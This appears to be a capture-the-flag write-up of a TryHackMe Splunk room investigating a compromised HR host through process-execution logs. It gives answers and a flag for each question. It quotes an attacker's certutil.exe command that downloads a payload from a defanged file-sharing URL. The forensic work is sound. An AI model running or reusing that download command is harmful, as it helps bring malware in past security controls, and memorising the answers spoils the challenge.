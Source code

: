 # Benign-THM-Challenge
Write-Up: Suspicious Process Execution Investigation

# Challenge room to investigate a compromised host.

## Objective
Learn more about Splunk and how to investigate the logs.
 Investigate a potential security incident flagged by an IDS, which identified suspicious process execution on an HR department host. 
 Initial findings suggested unauthorized network information gathering and scheduled task execution.

### Skills Learned

- Log Parsing and Analysis: I become familiar with using Splunk to search and filter logs based on specific fields like UserName, ProcessName, and CommandLine, helping to identify unusual or suspicious activity
- Searching for Rare Events: I practice using Splunk queries like rare values to identify outliers or anomalies, such as impersonation or abnormal process executions. This includes finding instances where common processes are being used in an unusual manner, like the use of LOLBINs (Living Off the Land Binaries)
- Investigating Process Execution: I get hands-on experience with process execution analysis, including tracking down which processes were executed by specific users, which is critical for understanding how an attack unfolded
- Identifying Malicious Behavior: By analyzing suspicious activity such as downloads from third-party sites or the execution of potentially malicious payloads.
- Timeline Creation: Splunk help me create a timeline of events related to the attack, such as when a suspicious binary was downloaded, which is useful for both incident response and forensic investigations

### Tools Used

- Splunk

## Solution Steps
Overview:

A host from the HR department was compromised, and suspicious activities were observed on the system. These activities included the execution of scheduled tasks, which confirmed the initial suspicion. The process execution logs were pulled using Event ID: 4688 and ingested into Splunk under the index win_eventlogs for further investigation.

The organization is divided into three departments:

```
IT Department: James, Moin, Katrina
HR Department: Haroon, Chris, Diana
Marketing Department: Bell, Amelia, Deepak

```

Questions & Answers:

**Question 1**: *How many logs are ingested from the month of March, 2022?*

To find the number of logs ingested from March 2022, change the date on the right top corner

Answer: 13,959 logs were ingested during the month of March 2022.

---

**Question 2:** Imposter Alert: There seems to be an imposter account observed in the logs. What is the name of that user?

To identify the imposter user, I searched for usernames not in the list of known users:

```index=win_eventlogs EventID=4688
NOT (UserName="James" OR UserName="Moin" OR UserName="Katrina" OR
UserName="Haroon" OR UserName="Chris" OR UserName="Diana" OR
UserName="Bell" OR UserName="Amelia" OR UserName="Deepak")
| stats count by UserName
```

This returned the following suspicious usernames:
```
Amel1a,
Chris.fort,
Daina
```

Answer: The imposter user is Amel1a.

We can Also use this type of queries

This command returns a unique list of values for a specific field.
Useful when you want to see all distinct values for a field (e.g., unique usernames).
`index=win_eventlogs EventID=4688
| stats values(UserName)`

or

This command counts the occurrences of events grouped by a specific field
Useful when you need to know how many times a specific field (like a user) appears in the logs.
`index=win_eventlogs EventID=4688
| stats count by UserName`

---

**Question 3**: Which user from the HR department was observed running scheduled tasks?

I searched for the execution of the scheduled tasks utility, schtasks.exe, which is commonly used for automated task management.

`index=win_eventlogs EventID=4688
| search ProcessName="*schtasks.exe*"`

Answer: The user who ran scheduled tasks is Chris.fort from the HR department.

---

**Question 4**: Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?

Certutil.exe is a Windows command-line tool used for managing certificates, but it can be exploited by attackers to download malicious payloads. I found Haroon executing the following command:

`index=win_eventlogs EventID=4688
| search ProcessName="*Certutil.exe*"`

Answer: Haroon executed the command:
certutil.exe -urlcache -f -  hxxps[://]controlc[.]com/e4d11035 benign.exe

---

**Question 5**: To bypass the security controls, which system process (LOLBIN) was used to download a payload from the internet?

Answer: The system process used to bypass security controls was Certutil.exe, as it is a legitimate Windows process often overlooked by security systems.

---

**Question 6**: What was the date that this binary was executed by the infected host?

The date of execution was found just below the command line in the logs.

Answer: 2022-03-04.

---

**Question 7:** Which third-party site was accessed to download the malicious payload?

From the command line, I identified the third-party site used for downloading the payload.

Answer:  controlc[.]com

---

**Question 8:** What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

The filename was included in the command line executed by Haroon.

Answer: The file saved was benign.exe.

---

**Question 9**: The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?

To find the pattern, I examined the URL provided in the command line, which pointed to the downloaded file.

Answer: The malicious content pattern is: THM{KJ&*H^B0}.

---

**Question 10:** What is the URL that the infected host connected to?

The URL was clearly visible in the executed command line.

Answer: The URL used to download the malicious payload is:
hxxps[://]controlc[.]com/e4d11035

---

**Conclusion**:

*The investigation involved identifying suspicious activities in the HR department's compromised host. By reviewing the logs and searching for specific execution patterns (e.g., use of Certutil.exe and schtasks.exe), we were able to determine the presence of a malicious user and the payload involved. The exploitation utilized a legitimate system tool to bypass security controls and download a payload from a third-party server.*

